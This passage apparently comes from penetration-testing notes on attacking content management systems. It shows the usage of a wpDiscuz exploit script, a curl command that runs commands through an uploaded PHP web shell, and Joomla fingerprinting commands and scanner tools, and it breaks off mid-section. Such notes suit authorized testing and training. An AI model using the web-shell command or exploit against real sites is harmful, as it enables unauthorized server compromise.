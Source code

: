 > Vulnerable plugin - wpDiscuz

The exploit script takes two parameters: `-u` the URL and `-p` the path to a valid post.

Example:

```
python3 wp_discuz.py -u http://domain.local -p /?p=1
```

We can use `cURL` to execute commands using the uploaded web shell. We just need to append `?cmd=` after the `.php` extension to run commands which we can see in the exploit script.

```
curl -s http://domain.local/wp-content/uploads/2021/08/shell.php?cmd=id
```


### Joomla

> Fingerprinting

```
curl -s http://domain.local/ | grep Joomla
```

We can fingerprint the Joomla version if the `README.txt` file is present:

```
curl -s http://domain.local/README.txt | head -n 5
```

In certain Joomla installs, we may be able to fingerprint the version from JavaScript files in the `media/system/js/` directory or by browsing to `administrator/manifests/files/joomla.xml`.

```
curl -s http://domain.local/administrator/manifests/files/joomla.xml | xmllint --format
```

The `cache.xml` file can help to give us the approximate version. It is located at `plugins/system/cache/cache.xml`.

> Tool - droopscan

Github: https://github.com/SamJoan/droopescan

Install it:

```
sudo pip3 install droopescan
```

Command example:

```
droopescan scan joomla --url http://domain.local/
```

> Tool - JoomlaScan

Github: https://github.com/drego85/JoomlaScan

Install it:
